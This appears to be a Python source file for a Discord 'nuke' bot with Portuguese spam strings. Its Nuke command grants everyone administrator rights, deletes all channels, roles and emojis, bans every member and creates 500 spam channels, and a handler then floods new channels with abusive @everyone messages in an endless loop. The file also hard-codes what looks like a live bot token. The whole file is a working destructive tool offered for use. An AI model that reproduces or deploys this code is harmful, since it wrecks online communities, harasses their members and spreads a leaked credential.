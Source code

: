 import discord
from discord.ext import commands
import random
from discord import Permissions
from colorama import Fore, Style
import asyncio

token="MTAyOTEwMTk5NjkzMTgyNTY4NA.GFRzeB.B_lnMGXB0H_q-B1e4QN8ZXOje7VekivuLLxChs"


SPAM_CHANNEL =  ["Card passou aqui"]
SPAM_MESSAGE = ["@everyone Vão se foder "]

client = commands.Bot(command_prefix="!")


@client.event
async def on_ready():
   print(''' 
   
███╗░░██╗██╗░░░██╗██╗░░██╗███████╗  ██████╗░░█████╗░████████╗
████╗░██║██║░░░██║██║░██╔╝██╔════╝  ██╔══██╗██╔══██╗╚══██╔══╝ 
██╔██╗██║██║░░░██║█████═╝░█████╗░░  ██████╦╝██║░░██║░░░██║░░░ 
██║╚████║██║░░░██║██╔═██╗░██╔══╝░░  ██╔══██╗██║░░██║░░░██║░░░ 
██║░╚███║╚██████╔╝██║░╚██╗███████╗  ██████╦╝╚█████╔╝░░░██║░░░  
╚═╝░░╚══╝░╚═════╝░╚═╝░░╚═╝╚══════╝  ╚═════╝░░╚════╝░░░░╚═╝░░░ 
 ''')
   await client.change_presence(activity=discord.Game(name="  GET NUKED MF"))

@client.command()
@commands.is_owner()
async def Stop(ctx):
    await ctx.bot.logout()
    print (Fore.GREEN + f"{client.user.name} has logged out successfully." + Fore.RESET)

@client.command()
async def Nuke(ctx):
    await ctx.message.delete()
    guild = ctx.guild
    try:
      role = discord.utils.get(guild.roles, name = "@everyone")
      await role.edit(permissions = Permissions.all())
      print(Fore.MAGENTA + "I have given everyone admin." + Fore.RESET)
    except:
      print(Fore.GREEN + "I was unable to give everyone admin" + Fore.RESET)
    for channel in guild.channels:
      try:
        await channel.delete()
        print(Fore.MAGENTA + f"{channel.name} was deleted." + Fore.RESET)
      except:
        print(Fore.GREEN + f"{channel.name} was NOT deleted." + Fore.RESET)
    for member in guild.members:
     try:
       await member.ban()
       print(Fore.MAGENTA + f"{member.name}#{member.discriminator} Was banned" + Fore.RESET)
     except:
       print(Fore.GREEN + f"{member.name}#{member.discriminator} Was unable to be banned." + Fore.RESET)
    for role in guild.roles:
     try:
       await role.delete()
       print(Fore.MAGENTA + f"{role.name} Has been deleted" + Fore.RESET)
     except:
       print(Fore.GREEN + f"{role.name} Has not been deleted" + Fore.RESET)
    for emoji in list(ctx.guild.emojis):
     try:
       await emoji.delete()
       print(Fore.MAGENTA + f"{emoji.name} Was deleted" + Fore.RESET)
     except:
       print(Fore.GREEN + f"{emoji.name} Wasn't Deleted" + Fore.RESET)
    banned_users = await guild.bans()
    for ban_entry in banned_users:
      user = ban_entry.user
      try:
        await user.unban("narko#7777")
        print(Fore.MAGENTA + f"{user.name}#{user.discriminator} Was successfully unbanned." + Fore.RESET)
      except:
        print(Fore.GREEN + f"{user.name}#{user.discriminator} Was not unbanned." + Fore.RESET)
    await guild.create_text_channel("NUKED BITCH")
    for channel in guild.text_channels:
        link = await channel.create_invite(max_age = 0, max_uses = 0)
        print(f"New Invite: {link}")
    amount = 500
    for i in range(amount):
       await guild.create_text_channel(random.choice(SPAM_CHANNEL))
    print(f"nuked {guild.name} Successfully.")
    return

@client.event
async def on_guild_channel_create(channel):
  while True:
    await channel.send(random.choice(SPAM_MESSAGE))

client.run(token, bot=True)

